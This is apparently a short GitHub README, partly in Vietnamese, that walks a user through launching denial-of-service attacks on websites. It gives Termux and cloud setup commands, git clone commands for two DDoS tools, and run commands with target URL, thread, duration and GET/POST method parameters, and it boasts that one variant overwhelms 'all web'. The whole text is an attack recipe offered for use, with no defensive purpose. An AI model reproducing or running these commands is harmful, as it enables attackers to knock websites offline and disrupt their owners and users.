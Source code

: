 # Setup termux
pkg update

pkg upgrade

pkg install golang

pkg install openjdk-17
# Setup gg cloud
sudo apt update

sudo apt upgrade

sudo apt install golang
# Lệnh Vào Tool
git clone https://github.com/Xuan-QuyenDepzaivailon/free-ddos

cd free-ddos
# Chế độ Get sài cho web https://
go run ddosbyxq.go https://linkweb.com 2000 get 5000 nil
# Chế độ Post xài cho web http://
go run ddosbyxq.go https://linkweb.com 2000 post 5000 header.txt
# Java DDoS siêu bá cân all web :))

java ddosbyxq.java

Link web:

Thread: 170000

Method: 4000
# Overload DDoS
pkg install python3 python3-pip git -y

git clone https://github.com/7zx/overload

cd overload

pip3 install -r requirements.txt

python3 overload.py

├───Cách Nhập

├───TIME:1000

└───THREADS:20000

└───URL:link web
